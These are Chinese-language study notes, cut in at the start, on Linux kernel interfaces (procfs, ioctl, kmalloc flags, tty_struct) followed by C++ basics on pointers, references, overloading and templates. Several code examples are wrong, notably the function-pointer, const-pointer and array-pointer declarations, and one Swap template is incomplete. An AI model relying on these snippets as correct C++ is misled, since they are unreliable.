#ifndef CONFIG_MMU
	unsigned (*mmap_capabilities)(struct file *);
#endif
	ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
			loff_t, size_t, unsigned int);
	loff_t (*remap_file_range)(struct file *file_in, loff_t pos_in,
				   struct file *file_out, loff_t pos_out,
				   loff_t len, unsigned int remap_flags);
	int (*fadvise)(struct file *, loff_t, loff_t, int);
} __randomize_layout;

```


procfs接口

 procfs：进程文件系统

procfs即`进程文件系统`（ Process file system ），其中包含一个**伪文件系统**，在系统启动时动态生成文件，不会占用真正的储存空间，而是占用一定的内存

procfs用以通过内核访问进程信息，通常被挂载到`/proc`目录下

proc_ops 结构体

类似于`file_operations`结构体，不同的是该结构体被用于procfs

定义于`include/linux/proc_fs.h`中，仅定义了少量函数指针成员，如下：

```c
struct proc_ops {
    unsigned int proc_flags;
    int    (*proc_open)(struct inode *, struct file *);
    ssize_t    (*proc_read)(struct file *, char __user *, size_t, loff_t *);
    ssize_t (*proc_read_iter)(struct kiocb *, struct iov_iter *);
    ssize_t    (*proc_write)(struct file *, const char __user *, size_t, loff_t *);
    loff_t    (*proc_lseek)(struct file *, loff_t, int);
    int    (*proc_release)(struct inode *, struct file *);
    __poll_t (*proc_poll)(struct file *, struct poll_table_struct *);
    long    (*proc_ioctl)(struct file *, unsigned int, unsigned long);
#ifdef CONFIG_COMPAT
    long    (*proc_compat_ioctl)(struct file *, unsigned int, unsigned long);
#endif
    int    (*proc_mmap)(struct file *, struct vm_area_struct *);
    unsigned long (*proc_get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
} __randomize_layout;
```


创建虚拟文件节点

使用`proc_create(const char *name, umode_t mode, struct proc_dir_entry *parent, const struct proc_ops *proc_ops)`函数可以快速创建一个文件节点

- `name`：文件名
- `mode`：文件读写执行权限
- `parent`：该文件挂载的procfs节点，若为NULL则自动挂载到`/proc`目录下
- `proc_ops`：该文件的proc_ops结构体

该函数的返回值同样为`proc_dir_entry`类型的指针

注销虚拟文件节点

函数`remove_proc_entry(const char *, struct proc_dir_entry *)`用以注销此前创建的文件，其中第一个参数为文件名，第二个参数为其挂载的节点，若为NULL则默认为`/proc`目录


对于一个提供了ioctl通信方式的设备而言，我们可以通过其文件描述符、使用不同的请求码及其他请求参数通过ioctl系统调用完成不同的对设备的I/O操作。

```c
#include <sys/ioctl.h> 
int ioctl(int fd, unsigned long request, ...);
```

- fd：设备的文件描述符
- request：请求码
- 其他参数

ioctl() 函数执行成功时返回 0，失败则返回 -1 并设置全局变量 errorno 值


```c
#include <linux/slab.h> 
void *kmalloc(size_t size, int flags);
```

一个参数是要分配的块的大小. 第 2 个参数, 分配标志


**flags参数：**

GFP_KERNEL

内核内存的通常分配方法，可能会引起休眠。

GFP_USER

用于为用户空间分配内存，可能会休眠。

GFP_ATOMIC

用于在中断处理例程或其他运行于进程上下文之外的代码中分配内存，不会休眠。

GFP_HIGHUSER

用于为用户空间分配内存，指高端内存分配，可能会休眠。

GFP_NOIO

禁止任何I/O的初始化（主要在虚拟内存代码中使用）。

GFP_NOFS

分配不允许执行任何文件系统调用（主要在文件系统代码中使用）。

------

分割线以上的flag可以和分割线以下的flag “或”起来使用（经常可以在判断条件里看到）

------

__GFP_DMA

该标志请求分配发生在可进行DMA的内存区段中。

__GFP_HIGHMEM

该标志表明要分配的内存可位于高端内存。

__GFP_NOWAPN

该标志使用的次数较少，它主要是避免内核在无法满足分配请求时产生警告信息。

__GFP_COLD

该标志表示请求尚未使用的“冷”页面。

__GFP_HIGH

该标记标记了一个高优先级的请求，它允许为紧急状况而消耗由内核保留的最后一些页面。

__GFP_REPEAT

该标志表示在分配器在满足分配请求而遇到困难时，“努力再尝试一次”，它会重新尝试分配，但还是有失败的可能性。

__GFP_NOFAIL

该标志表示在分配器在满足分配请求而遇到困难时告诉分配器始终不返回失败。

__GFP_NORETRY

该标志表示再请求内存不可获得的时候会立即返回。

GFP_前缀是由于在分配内存时总是调用get_free_page来实现实际的分配而得来的缩写。


伪终端 （**/dev/pty**）：**伪终端(Pseudo Terminal)**是成对的**逻辑**终端设备，其行为与普通终端非常相似。所不同的是伪终端没有对应的硬件设备，主要目的是实现双向信道，为其他程序提供终端形式的接口。当我们远程连接到主机时，与主机进行交互的终端的类型就是伪终端，而且日常使用的图形界面中的多个终端也全都是伪终端。伪终端的两个终端设备分别称为 master 设备和 slave 设备，其中 slave 设备的行为与普通终端无异。当某个程序把某个 master 设备看作终端设备并进行读写，则该读写操作将实际反应至该逻辑终端设备所对应的另一个 slave 设备。通常 slave 设备也会被其他程序用于读写。因此这两个程序便可以通过这对逻辑终端来进行通信。

现代 linux 主要使用 **UNIX 98 pseudoterminals** 标准，即 **pts(pseudo-terminal slave, /dev/pts/n)** 和 **ptmx(pseudo-terminal master, /dev/ptmx)** 搭配来实现 pty。

伪终端主要用于两个应用场景

- 终端仿真器，为其他远程登录程序（例如 ssh）提供终端功能
- 可用于向**通常拒绝从管道读取输入**的程序（例如 su 和 passwd）发送输入


执行 `open("/dev/ptmx", flag)` 时，内核会通过以下函数调用链，分配一个 `struct tty_struct` 结构体：

```bash
ptmx_open (drivers/tty/pty.c)
-> tty_init_dev (drivers/tty/tty_io.c)
  -> alloc_tty_struct (drivers/tty/tty_io.c)
```


> sizeof(struct tty_struct) == 0x2e0

```c
struct tty_struct {
  int  magic;
  struct kref kref;
  struct device *dev;
  struct tty_driver *driver;
  const struct tty_operations *ops;
  int index;

  /* Protects ldisc changes: Lock tty not pty */
  struct ld_semaphore ldisc_sem;
  struct tty_ldisc *ldisc;

  struct mutex atomic_write_lock;
  struct mutex legacy_mutex;
  struct mutex throttle_mutex;
  struct rw_semaphore termios_rwsem;
  struct mutex winsize_mutex;
  spinlock_t ctrl_lock;
  spinlock_t flow_lock;
  /* Termios values are protected by the termios rwsem */
  struct ktermios termios, termios_locked;
  struct termiox *termiox;  /* May be NULL for unsupported */
  char name[64];
  struct pid *pgrp;    /* Protected by ctrl lock */
  struct pid *session;
  unsigned long flags;
  int count;
  struct winsize winsize;    /* winsize_mutex */
  unsigned long stopped:1,  /* flow_lock */
          flow_stopped:1,
          unused:BITS_PER_LONG - 2;
  int hw_stopped;
  unsigned long ctrl_status:8,  /* ctrl_lock */
          packet:1,
          unused_ctrl:BITS_PER_LONG - 9;
  unsigned int receive_room;  /* Bytes free for queue */
  int flow_change;

  struct tty_struct *link;
  struct fasync_struct *fasync;
  int alt_speed;    /* For magic substitution of 38400 bps */
  wait_queue_head_t write_wait;
  wait_queue_head_t read_wait;
  struct work_struct hangup_work;
  void *disc_data;
  void *driver_data;
  struct list_head tty_files;

#define N_TTY_BUF_SIZE 4096

  int closing;
  unsigned char *write_buf;
  int write_cnt;
  /* If the tty has a pending do_SAK, queue it here - akpm */
  struct work_struct SAK_work;
  struct tty_port *port;
};
```

注意到第五个字段 `const struct tty_operations *ops`，`struct tty_operations`结构体实际上是多个函数指针的集合：

```c
struct tty_operations {
  struct tty_struct * (*lookup)(struct tty_driver *driver,
      struct inode *inode, int idx);
  int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
  void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
  int  (*open)(struct tty_struct * tty, struct file * filp);
  void (*close)(struct tty_struct * tty, struct file * filp);
  void (*shutdown)(struct tty_struct *tty);
  void (*cleanup)(struct tty_struct *tty);
  int  (*write)(struct tty_struct * tty,
          const unsigned char *buf, int count);
  int  (*put_char)(struct tty_struct *tty, unsigned char ch);
  void (*flush_chars)(struct tty_struct *tty);
  int  (*write_room)(struct tty_struct *tty);
  int  (*chars_in_buffer)(struct tty_struct *tty);
  int  (*ioctl)(struct tty_struct *tty,
        unsigned int cmd, unsigned long arg);
  long (*compat_ioctl)(struct tty_struct *tty,
           unsigned int cmd, unsigned long arg);
  void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
  void (*throttle)(struct tty_struct * tty);
  void (*unthrottle)(struct tty_struct * tty);
  void (*stop)(struct tty_struct *tty);
  void (*start)(struct tty_struct *tty);
  void (*hangup)(struct tty_struct *tty);
  int (*break_ctl)(struct tty_struct *tty, int state);
  void (*flush_buffer)(struct tty_struct *tty);
  void (*set_ldisc)(struct tty_struct *tty);
  void (*wait_until_sent)(struct tty_struct *tty, int timeout);
  void (*send_xchar)(struct tty_struct *tty, char ch);
  int (*tiocmget)(struct tty_struct *tty);
  int (*tiocmset)(struct tty_struct *tty,
      unsigned int set, unsigned int clear);
  int (*resize)(struct tty_struct *tty, struct winsize *ws);
  int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
  int (*get_icount)(struct tty_struct *tty,
        struct serial_icounter_struct *icount);
#ifdef CONFIG_CONSOLE_POLL
  int (*poll_init)(struct tty_driver *driver, int line, char *options);
  int (*poll_get_char)(struct tty_driver *driver, int line);
  void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
  const struct file_operations *proc_fops;
};
```


# C++

  **强制类型转换**

```
(typeName) value
typeName (value)
static_cast<typeName>(vaule)

```


**进制转换**

```
std::cout<<std::hex<<a<<std::endl;

hex oct,在std名称空间中
cout<<hex<<a<<endl;
cout<<oct<<a<<endl;
```


```
a=2,3;  //a=2
b=(2,3);//b=3
```


```
    double arr[5]={21.1,32.8,23.4,42.5,37.4};
    double *pt=arr;
    cout<<*++pt<<endl;//  32.8
    cout<<++*pt<<endl;//  33.8
    cout<<(*pt)++<<endl;  //33.8
    cout<<*pt++<<endl;    //34.8

```


**auto**

auto让编译器能够根据初始值的类型推断变量的类型。

```
auto a=100//a is int
auto b=1.5//b is double
auto c=1.3e12L //c is long double
```

**typedef**

关键字typedef能够创建类型别名：

```
typedef double real;//make real another name for double

```


**面向行的输入**

面向行的输入：getline()getline()函数读取整行，它使用通过回车键输入的换行符来确定输入结尾。要调用这种方法，可以使用cin.getline()。该函数有两个参数。第一个参数是用来存储输入行的数组的名称，第二个参数是要读取的字符数。如果这个参数为20，则函数最多读取19个字符，余下的空间用于存储自动在结尾处添加的空字符。getline()成员函数在读取指定数目的字符或遇到换行符时停止读取。例如，假设要使用getline()将姓名读入到一个包含20个元素的name数组中。可以使用这样的函数调用：

```
cin.getline(name,20)
```

istream类有另一个名为get()的成员函数，该函数有几种变体。其中一种变体的工作方式与getline()类似，它们接受的参数相同，解释参数的方式也相同，并且都读取到行尾。但get并不再读取并丢弃换行符，而是将其留在输入队列中。所以我们不能连续两次调用get()

```
cin.get(name,ArSize);     //read first line
cin.get();                //read newline
cin.get(dessert,Arsize);  //read second line
cin.get(name,ArSize).get();
cin.getline(name1,ArSize).getline(name2,Arsize);
```

```
char ch;
cin.get(ch);
cout<<ch;
cin.get(ch);
cout<<ch;
cin.get(ch);
cout<<ch;
cin.get(ch);   
cout<<ch<<endl;
```


**string类**

要使用string类，必须在程序中包含头文件string。string类位于名称空间std中，因此您必须提供一条using编译指令，或者使用std::string来引用它。string类定义隐藏了字符串的数组性质，让您能够像处理普通变量那样处理字符串.

```
#include<string>
using namespase std;
int main(){
    string a,b,c;
    cin>>a;
    cout<<a;
    b="asdf";	//赋值
    c=b;		//复制
    c+=b;       //拼接
    return 0;
}
```


**结构数组**

结构数组inflatable结构包含一个数组（name）。也可以创建元素为结构的数组，方法和创建基本类型数组完全相同。例如，要创建一个包含100个inflatable结构的数组，可以这样做：

```
intflatable gifts[100];//array of 100 intflatable structuers
```

这样，gifts将是一个inflatable数组，其中的每个元素（如gifts[0]或gifts[99]）都是inflatable对象，可以与成员运算符一起使用：

```
cin>>gifts[0].volume;		
cout<<gift[99].price<<endl;
```

记住，gifts本身是一个数组，而不是结构，因此像gifts.price这样的表述是无效的。


**共用体**

共用体（union）是一种数据格式，它能够存储不同的数据类型，但只能同时存储其中的一种类型。也就是说，结构可以同时存储int、long和double，共用体只能存储int、long或double。共用体的句法与结构相似，但含义不同。例如，请看下面的声明：

```
union one4all{
	int int_val;
	long long_val;
	double double_val;
}
```

可以使用one4all变量来存储int、long或double，条件是在不同的时间进行：

```
one4all pail;
pail.int_val=15;
cout<<pail.int_val;
pail.double_val=1.38;
cout<<pail<<pail.double;
```

因此，pail有时可以是int变量，而有时又可以是double变量。成员名称标识了变量的容量。由于共用体每次只能存储一个值，因此它必须有足够的空间来存储最大的成员，所以，共用体的长度为其最大成员的长度。


**申请动态数组**

```
int size;
cin>>size;
int *pz=new int [size];
……
delete [] pz;
```

```
	int *p= new int [3];
    p[0]=1;
    p[1]=2;
    p[2]=3;
    cout<<p[0]<<endl;
    p=p+2;
    cout<<p[0]<<endl;
    p=p-1;
    cout<<p[0];
    delete [] p;
```


**数组与指针**

对数组取地址时，数组名也不会被解释为其地址。等等，数组名难道不被解释为数组的地址吗？不完全如此：数组名被解释为其第一个元素的地址，而对数组名应用地址运算符时，得到的是整个数组的地址：

```
short tell[20];
cout<<tell<<endl;//dispaly &tell[0]
cout<<&tell<<endl;//dispaly address of whole array
```

从数字上说，这两个地址相同；但从概念上说，&tell[0]（即tell）是一个2字节内存块的地址，而&tell是一个20字节内存块的地址。因此，表达式tell+1将地址值加2，而表达式&tell+2将地址加20。换句话说，tell是一个short指针`（*short）`，而&tell是一个这样的指针，即指向包含20个元素的short数组（short(*)[20]）。

您可能会问，前面有关&tell的类型描述是如何来的呢？首先，您可以这样声明和初始化这种指针：

```
short *(pas)[20]=&tell;//pas points array of 20 shorts 
```

如果省略括号，优先级规则将使得pas先与[20]结合，导致pas是一个short指针数组，它包含20个元素，因此括号是必不可少的。其次，如果要描述变量的类型，可将声明中的变量名删除。因此，pas的类型为`short(*)[20]`。另外，由于pas被设置为&tell，因此*pas与tell等价，所以`(*pas)[0]`为tell数组的第一个元素。


**字符函数库cctype**

C++从C语言继承了一个与字符相关的、非常方便的函数软件包，它可以简化诸如确定字符是否为大写字母、数字、标点符号等工作，这些函数的原型是在头文件cctype（老式的风格中为ctype.h）中定义的。例如，如果ch是一个字母，则isalpha（ch）函数返回一个非零值，否则返回0。同样，如果ch是标点符号（如逗号或句号），函数ispunct（ch）将返回true。（这些函数的返回类型为int，而不是bool，但通常bool转换让您能够将它们视为bool类型。）

使用这些函数比使用AND和OR运算符更方便。例如，下面是使用AND和OR来测试字符ch是不是字母字符的代码：

```
if((ch>='a'&&ch<='z')||(ch>='A'&&ch<='Z'))
```

与使用isalpha()相比：

```
if(isalpha(ch))
```

cctype中的字符函数

| 函数名称   | 返回值                                                       |
| ---------- | ------------------------------------------------------------ |
| isalnum()  | 如果参数是字母数字，即字母或数字，该函数返回true             |
| isalpha()  | 如果参数是字母，该函数返回真                                 |
| isblank()  | 如果参数是空格或水平制表符，该函数返回true                   |
| iscntrl()  | 如果参数是控制字符，该函数返回true                           |
| isdigit()  | 如果参数是数字（0～9），该函数返回true                       |
| isgraph()  | 如果参数是除空格之外的打印字符，该函数返回true               |
| islower()  | 如果参数是小写字母，该函数返回true                           |
| isprint()  | 如果参数是打印字符（包括空格），该函数返回true               |
| ispunct()  | 如果参数是标点符号，该函数返回true                           |
| isspace()  | 如果参数是标准空白字符，如空格、进纸、换行符、回车、水平制表符或者垂直制表符，该函数返回true |
| isupper()  | 如果参数是大写字母，该函数返回true                           |
| isxdigit() | 如果参数是十六进制的数字，即0～9、a~f、A~F，该函数返回true   |
| tolower()  | 如果参数是大写字符，则返回其小写，否则返回该参数             |
| toupper()  | 如果参数是小写字母，则返回其大写，否则返回该参数             |

 

写入到文本文件中

```
#include<iostream>
#include<fstream>
using namespase std;
int main(){
	ofstream outFile;
	outFile.open("filename");
	outFile<<;      //写入数据
	outFile.close();
	
}
```

读取文本文件

```
#include<iostream>
#include<fstream>
using namespase std;
int main(){
	ifstream inFile;
	inFile.open("filename");
	inFile>>;      //读入数据
	inFile.close();
	
}
```

**函数与数组**

为将数组类型和元素数量告诉数组处理函数，请通过两个不同的参数来传递它们：

```
viod fun(int a[],int size)
```

而不要试图使用方括号表示法来传递数组长度：

```
void fun(int a[size])
```

const与数组

```
void fun(const int a[],int size)
```

该声明表明，指针ar指向的是常量数据。这意味着不能使用ar修改该数据，也就是说，可以使用像ar[0]这样的值，但不能修改。注意，这并不是意味着原始数组必须是常量，而只是意味着不能在show_array()函数中使用ar来修改这些数据。因此，show_array()将数组视为只读数据。

```

```


**const与指针**

```
int age=39;
const int *pt=&age;
*pt=20;// invalid
age=20;//valid
```

该声明指出，pt指向一个const int（这里为39），因此不能使用pt来修改这个值。换句话来说，*pt的值为const，不能被修改：现在来看一个微妙的问题。pt的声明并不意味着它指向的值实际上就是一个常量，而只是意味着对pt而言，这个值是常量。例如，pt指向age，而age不是const。可以直接通过age变量来修改age的值，但不能使用pt指针来修改它。

```
const float g_earth=9.80;
const float *pe=&g_earth;//valid

const float g_moon=1.63;
float *pm=&g_moon;		//invalid
```

对于第一种情况来说，既不能使用g_earth来修改值9.80，也不能使用pe来修改。C++禁止第二种情况的原因很简单——如果将g_moon的地址赋给pm，则可以使用pm来修改g_moon的值，这使得g_moon的const状态很荒谬，因此C++禁止将const的地址赋给非const指针。

```
int a=16;
int b=12;
const int *p1=&a;// a pointer to const int
int const *p2=&b// a const pointer to int
*p1=20;//invalid
p1=&b;// valid
*p2=20;//valid
p2=&a;//invalid
```


**函数返回字符串**

现在，假设要编写一个返回字符串的函数。是的，函数无法返回一个字符串，但可以返回字符串的地址，这样做的效率更高。

```
char *buildstr(char c,int n){
	char *prt=new char[n+1];
	……
	return prt;
}

```

**函数与结构**

```
struct A
{
    int x;
    int y;
};
struct B
{
    int a;
    int b;
};
B fun(A t){
    B k;
    k.a=t.x;
    k.b=t.y;
    return k;
}
int main(){
    A m={3,4};
    B n;
    n=fun(m);
    cout<<n.a<<n.b;
    return 0;
}
```

假设要传递结构的地址而不是整个结构以节省时间和空间，则需要重新编写前面的函数，使用指向结构的指针。需要修改三个地方：

- 调用函数时，将结构的地址（&m）而不是结构本身（n）传递给它；
- 将形参声明为指向polar的指针，即polar*类型。由于函数不应该修改结构，因此使用了const修饰符；
- 由于形参是指针而不是结构，因此应间接成员运算符（->），而不是成员运算符（.）

```
void fun(A *t,B *k){
    k->a=t->x;
    (*k).b=t->y;
}
int main(){
    A m={3,4};
    B n;
    fun(&m,&n);
    cout<<n.a<<n.b;
    return 0;
}
```


**函数指针**

1. 获取函数的地址

   获取函数的地址很简单：只要使用函数名（后面不跟参数）即可。也就是说，如果think()是一个函数，则think就是该函数的地址。要将函数作为参数进行传递，必须传递函数名。一定要区分传递的是函数的地址还是函数的返回值：

   ```
   process(think);//passes address of think() to process
   thought(think());//passes return value of think() to thought
   ```

   process()调用使得process()函数能够在其内部调用think()函数。thought()调用首先调用think()函数，然后将think()的返回值传递给thought()函数。

2. 声明函数指针

   声明指向某种数据类型的指针时，必须指定指针指向的类型。同样，声明指向函数的指针时，也必须指定指针指向的函数类型。这意味着声明应指定函数的返回类型以及函数的特征标（参数列表）。也就是

   说声明应像函数原型那样指出有关函数的信息。例如，假设PamleCoder编写了一个估算时间的函数，其原型如下：

   ```
   double *(pf)(int);//pf point to a function that take
   				// one int argument and that
   				//return type double
   					
   ```

   这与pam()声明类似，这是将pam替换为了`（*pf）`。由于pam是函数，因此`（*pf）`也是函数。而如果（*pf）是函数，则pf就是函数指针。 

   通常，要声明指向特定类型的函数的指针，可以首先编写这种函数的原型，然后用（*pf）替换函数名。这样pf就是这类函数的指针。

   为提供正确的运算符优先级，必须在声明中使用括号将*pf括起。括号的优先级比*运算符高，因此`*pf（int）`意味着pf()是一个返回指针的函数，而`（*pf)（int）`意味着pf是一个指向函数的指针：

   ```
   double *(pf)(int);//pf ponts to afunction that return double
   double *pf(int);//pf() a function that returns a pointer-todouble
   ```

   正确声明后赋值

   ```
   double pam(int);
   double *(pf)(int);
   pf=pam;
   ```

   注意，pam()的特征标和返回类型必须与pf相同。如果不相同，编译器将拒绝这种赋值。

3. 使用指针来调用函数

   现在进入最后一步，即使用指针来调用被指向的函数。线索来自指针声明。前面讲过，`（*pf）`扮演的角色与函数名相同，因此使用（*pf）时，只需将它看作函数名即可：

   ```
   double pam(int);
   double *(pf)(int);
   pf=pam;
   double x=pam(4);
   double y=(*pf)(5)
   ```

### 函数探幽

#### 内联函数

内联函数是C++为提高程序运行速度所做的一项改进。常规函数和内联函数之间的主要区别不在于编写方式，而在于C++编译器如何将它们组合到程序中。要了解内联函数与常规函数之间的区别，必须深入到程序内部。

编译过程的最终产品是可执行程序——由一组机器语言指令组成。运行程序时，操作系统将这些指令载入到计算机内存中，因此每条指令都有特定的内存地址。计算机随后将逐步执行这些指令。有时（如有循环或分支语句时），将跳过一些指令，向前或向后跳到特定地址。常规函数调用也使程序跳到另一个地址（函数的地址），并在函数结束时返回。下面更详细地介绍这一过程的典型实现。执行到函数调用指令时，程序将在函数调用后立即存储该指令的内存地址，并将函数参数复制到堆栈（为此保留的内存块），跳到标记函数起点的内存单元，执行函数代码（也许还需将返回值放入到寄存器中），然后跳回到地址被保存的指令处（这与阅读文章时停下来看脚注，并在阅读完脚注后返回到以前阅读的地方类似）。来回跳跃并记录跳跃位置意味着以前使用函数时，需要一定的开销。

C++内联函数提供了另一种选择。内联函数的编译代码与其他程序代码“内联”起来了。也就是说，编译器将使用相应的函数代码替换函数调用。对于内联代码，程序无需跳到另一个位置处执行代码，再跳回来。因此，内联函数的运行速度比常规函数稍快，但代价是需要占用更多内存。如果程序在10个不同的地方调用同一个内联函数，则该程序将包含该函数代码的10个副本


要使用这项特性，必须采取下述措施之一：

在函数声明前加上关键字inline；

在函数定义前加上关键字inline。

通常的做法是省略原型，将整个定义（即函数头和所有函数代码）放在本应提供原型的地方。

应有选择地使用内联函数。如果执行函数代码的时间比处理函数调用机制的时间长，则节省的时间将只占整个过程的很小一部分。如果代码执行时间很短，则内联调用就可以节省非内联调用使用的大部分时间。另一方面，由于这个过程相当快，因此尽管节省了该过程的大部分时间，但节省的时间绝对值并不大，除非该函数经常被调用。

```
inline double square(double x){return x*x}
```

内联函数square()（计算参数的平方）演示了内联技术。注意到整个函数定义都放在一行中，但并不一定非得这样做。然而，如果函数定义占用多行（假定没有使用冗长的标识符），则将其作为内联函数就不太合适。

#### 引用变量

C++给&符号赋予了另一个含义，将其用来声明引用。例如，要将rodents作为rats变量的别名，可以这样做：

```
int rate;
int & rodents=rates;
```

其中，&不是地址运算符，而是类型标识符的一部分。就像声明中的char*指的是指向char的指针一样，int&指的是指向int的引用。用声明允许将rats和rodents互换——它们指向相同的值和内存单元。

必须在声明引用变量时进行初始化。

##### 引用函数参数


传递引用的限制更严格。毕竟，如果ra是一个变量的别名，则实参应是该变量。下面的代码不合理，因为表达式x+3.0并不是变量：

```
double refcube(double &ra){
	return ra*ra*ra;
}
double z=refcube(x+0.3);
```

**临时变量，引用参数和const**

如果实参与引用参数不匹配，C++将生成临时变量。当前，仅当参数为const引用时，C++才允许这样做，但以前不是这样。下面来看看何种情况下，C++将生成临时变量，以及为何对const引用的限制是合理的。

首先，什么时候将创建临时变量呢？如果引用参数是const，则编译器将在下面两种情况下生成临时变量：

- 实参的类型正确，但不是左值；
- 实参的类型不正确，但可以转换为正确的类型。

左值是什么呢？左值参数是可被引用的数据对象，例如，变量、数组元素、结构成员、引用和解除引用的指针都是左值。非左值包括字面常量（用引号括起的字符串除外，它们由其地址表示）和包含多项的表达式。在C语言中，左值最初指的是可出现在赋值语句左边的实体，但这是引入关键字const之前的情况。现在，常规变量和const变量都可视为左值，因为可通过地址访问它们。但常规变量属于可修改的左值，而const变量属于不可修改的左值。

```
double refcube(const double &ra){
	return ra*ra*ra;
}
double x=3.0;
long y=8;
double z1=refcube(x);//ra is x
double z2=refcube(y);//ra is temporary variable
double z3=refcube(x+0.3);//ra is temporary variable
double z4=refcube(7.0);//ra is temporary variable
```

y虽然是变量，类型却不正确，double引用不能指向long。另一方面，参数7.0和x+0.3的类型都正确，但没有名称，在这些情况下，编译器都将生成一个临时匿名变量，并让ra指向它。这些临时变量只在函数调用期间存在，此后编译器便可以随意将其删除。

现在来看refcube()函数。该函数的目的只是使用传递的值，而不是修改它们，因此临时变量不会造成任何不利的影响，反而会使函数在可处理的参数种类方面更通用。因此，如果声明将引用指定为const，C++将在必要时生成临时变量。实际上，对于形参为const引用的C++函数，如果实参不匹配，则其行为类似于按值传递，为确保原始数据不被修改，将使用临时变量来存储值。


#### 默认参数

```
char * left(const char*str,int n=1);
```

希望该函数返回一个新的字符串，因此将其类型设置为char*（指向char的指针）；您希望原始字符串保持不变，因此对第一个参数使用了const限定符；您希望n的默认值为1，因此将这个值赋给n。默认参数值是初始化值，因此上面的原型将n初始化为1。如果省略参数n，则它的值将为1；否则，传递的值将覆盖1。

对于带参数列表的函数，必须从右向左添加默认值。也就是说，要为某个参数设置默认值，则必须为它右边的所有参数提供默认值：

```
int har(int n,int m=4,int j=5);//valid
int chi(int n,int m=6,int j);   //invalid
int gro(int k=1,int m=2,int n=3);//valid
int x;
x=har(2)//same as har(2,4,5)
x=har(1,8)//same as har(1,8,5)
x=har(8,7,6)//no default arguments used
```

实参按从左到右的顺序依次被赋给相应的形参，而不能跳过任何参数。因此，下面的调用是不允许的：

`x=har(2,,3)//invalid don't set m to 4`

#### 函数重载

“函数重载”指的是可以有多个同名的函数，因此对名称进行了重载。这两个术语指的是同一回事，但我们通常使用函数重载。可以通过函数重载来设计一系列函数——它们完成相同的工作，但使用不同的参数列表。

重载函数就像是有多种含义的动词。例如，Piggy小姐可以在棒球场为家乡球队助威（root），也可以在地里种植（root）菌类作物。根据上下文可以知道在每一种情况下，root的含义是什么。同样，C++使用上下文来确定要使用的重载函数版本。

函数重载的关键是函数的参数列表——也称为函数特征标（function signature）。如果两个函数的参数数目和类型相同，同时参数的排列顺序也相同，则它们的特征标相同，而变量名是无关紧要的。C++允许定义名称相同的函数，条件是它们的**特征标不同。如果参数数目和/或参数类型不同，则特征标也不同。**例如，可以定义一组原型如下的print()函数：

```
void print(const char *str,int width);//#1
void print(double d,int width);		//#2
void print(long l,int width);		//#3
void print(int i,int width);		//#4
void print(const char *str);		//#5
```

使用print()函数时，编译器将根据所采取的用法使用有相应特征标的原型：

```
print("Back",15);		//#1
print("back");			//#5
print(2.0,10);			//#2
print(2,12);			//#4
print(1999L,15)			//#3
```

使用被重载的函数时，需要在函数调用中使用正确的参数类型。例如，对于下面的语句：

```
unsigned int year=1111;
print(year,6)	//ambiguous call
```

print()调用与哪个原型匹配呢？它不与任何原型匹配！没有匹配的原型并不会自动停止使用其中的某个函数，因为C++将尝试使用标准类型转换强制进行匹配。如果#2原型是print()唯一的原型，则函数调用print(year,6)将把year转换为double类型。但在上面的代码中，有3个将数字作为第一个参数的原型，因此有3种转换year的方式。

**引用类型**

```
double cube(double x);
double cube(double &x);
```

参数x与double x原型和double &x原型都匹配，因此编译器无法确定究竟应使用哪个原型。为避免这种混乱，编译器在检查函数特征标时，将把类型引用和类型本身视为同一个特征标。

**const**

```
void dabble(char *bits);
void drivel(const char *bits);

```

dabble()函数只与带非const参数的调用匹配，而drivel()函数可以与带const或非const参数的调用匹配。drivel()和dabble()之所以在行为上有这种差别，主要是由于将非const值赋给const变量是合法的，但反之则是非法的。

请记住，是特征标，而不是函数类型使得可以对函数进行重载。例如，下面的两个声明是互斥的：

```
long fun(int x,float y);
double fun(int x,float y);
```

#### 函数模板

函数模板是通用的函数描述，也就是说，它们使用泛型来定义函数，其中的泛型可用具体的类型（如int或double）替换。通过将类型作为参数传递给模板，可使编译器生成该类型的函数。由于模板允许以泛型（而不是具体类型）的方式编写程序，因此有时也被称为通用编程。由于类型是用参数表示的，因此模板特性有时也被称为参数化类型（parameterized types）

函数模板允许以任意类型的方式来定义函数。例如，可以这样建立一个交换模板：

```
template<typename AnyType>
void Swap(AnyType &a,AnyType &b)
{
	AnyType temp;
	temp=a;
	a=b;
}
```

第一行指出，要建立一个模板，并将类型命名为`AnyType`。关键字template和`typename`是必需的，除非可以使用关键字class代替`typename`。另外，必须使用尖括号。类型名可以任意选择（这里为`AnyType`），只要遵守C++命名规则即可；许多程序员都使用简单的名称，如T。余下的代码描述了交换两个`AnyType`值的算法。模板并不创建任何函数，而只是告诉编译器如何定义函数。需要交换int的函数时，编译器将按模板模式创建这样的函数，并用int代替`AnyType`。同样，需要交换double的函数时，编译器将按模板模式创建这样的函数，并用double代替`AnyType`。

```
template<typename T>
void Swap(T &a,T&b)
{
    T temp;
    temp=a;
    a=b;
    b=temp;
}
int main(){
    int x=1,y=2;
    double m=1.3,n=3.1;
    Swap(x,y);
    Swap(m,n);
    return 0;
}
```

注意，函数模板不能缩短可执行程序。最终仍将由两个独立的函数定义，就像以手工方式定义了这些函数一样。最终的代码不包含任何模板，而只包含了为程序生成的实际函数。使用模板的好处是，它使生成多个函数定义更简单、更可靠。

若T为数组、指针或结构，对于很多操作就不合法(如直接+-*/)。

**显式具体化**

- 对于给定的函数名，可以有非模板函数、模板函数和显式具体化模板函数以及它们的重载版本。
- 显式具体化的原型和定义应以template<>打头，并通过名称来指出类型。
- 具体化优先于常规模板，而非模板函数优先于具体化和常规模板。

下面是用于交换job结构的非模板函数、模板函数和具体化的原型：

```
//non template function prototype
void Swap(job &,job &);
//template prototype
template <typename T>
void Swap(T &,T &);
//explict specialization for the job type
template<>void Swap(job&,job&);
```

实例化：template void<int> Swap(int,int);

**关键字decltype**

`decltype(expression) var`

```
int x;
decltype(x) y; //make y the same type as  x
decltype(x+y)xpy=x+y;//make xpy the same type as x+y
```

不知道函数返回类型

```
template<class T1,class T2>
auto gt(T1 x,T2 y)->decltype(x+y)//返回类型为(x+y)类型
{
	……
	return x+y;
}
```


### 内存模型和名称空间

#### 单独编译

- 头文件：包含结构声明和使用这些结构的函数的原型。
- 源代码文件：包含与结构有关的函数的代码。
